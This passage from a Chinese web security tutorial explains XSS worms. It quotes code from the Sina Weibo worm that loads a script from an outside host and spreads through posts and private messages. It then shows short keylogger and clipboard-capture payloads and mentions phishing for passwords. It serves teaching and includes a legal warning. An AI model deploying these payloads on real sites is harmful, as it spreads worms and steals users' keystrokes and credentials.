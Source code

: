 ```javascript
   x="g=document.createElement('script');g.src='http://www.2kt.cn/images/t.js';document.body.appendChild(g)";window.opener.eval(x);
}
catch(e){}
main();
var t=setTimeout('location="http://weibo.com/pub/topic";',5000);
//等待 5 秒跳转到微话题页面
```

我总结了该 XSS 蠕虫的攻击流程：

1. 利用 XSS 漏洞插入恶意 JS 代码；

2. 利用 XMLHttpRequest 发送请求去发表微博、关注用户、获取关注者列表并向其发送私信；

3. 微博消息和私信都包含有恶意攻击链接，等于实现了攻击代码的自我复制和传播。

由此可见，一个完整的 XSS 蠕虫常常具备如下特征：

* 目标网站存在 XSS 漏洞；

* 攻击代码的自我复制和传播，其传播方式依赖于业务场景，更多是在社交功能上，比如博客、私信、微博、评论。

**声明：在互联网上传播 XSS 蠕虫属于违法行为，即使是处于合法的渗透测试任务，也该严格控制传播的可能性，否则出现失控，仍需承担法律责任**。

#### 其他攻击方法

在 XSS 漏洞攻击场景下，凡是 JavaScript 能够实现功能，你都可以自由发挥，实现不同的攻击方法。

比如键盘记录：

```javascript
keys = ""
document.onkeypress = function(){
  keys += String.fromCharCode(window.event.keyCode);
}
```

比如在 Chrome 浏览器中使用代码截获剪贴板内容：

```javascript
document.addEventListener('paste', function (evt) {
  clipdata = evt.clipboardData || window.clipboardData;
  console.log(clipdata.getData('text/plain'));
});
```


<Image alt="Drawing 22.png" src="https://s0.lgstatic.com/i/image/M00/8B/A8/CgqCHl_cOwOAbfppAATnMiQk45A089.png"/> 
  
图 23：截获剪贴内容

比如钓鱼欺骗用户输入账号、密码：


<Image alt="图片15.png" src="https://s0.lgstatic.com/i/image2/M01/03/E6/Cip5yF_kTF-ALwT6AALUte7Tb1k341.png"/> 
  
图 24：利用 XSS 进行钓鱼欺骗
